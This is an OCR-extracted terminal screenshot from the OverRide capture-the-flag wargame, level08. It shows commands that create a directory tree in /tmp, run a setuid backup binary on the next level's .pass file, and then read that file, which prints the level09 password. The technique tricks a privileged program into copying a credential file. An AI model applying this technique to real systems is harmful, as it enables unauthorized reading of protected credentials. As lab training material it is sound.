 level08@OverRide:/tmp$ mkdir backups//home
level08@OverRide:/tmp$ mkdir backups//home/users
level08@OverRide:/tmp$ mkdir backups//home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/
home/ .log  
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
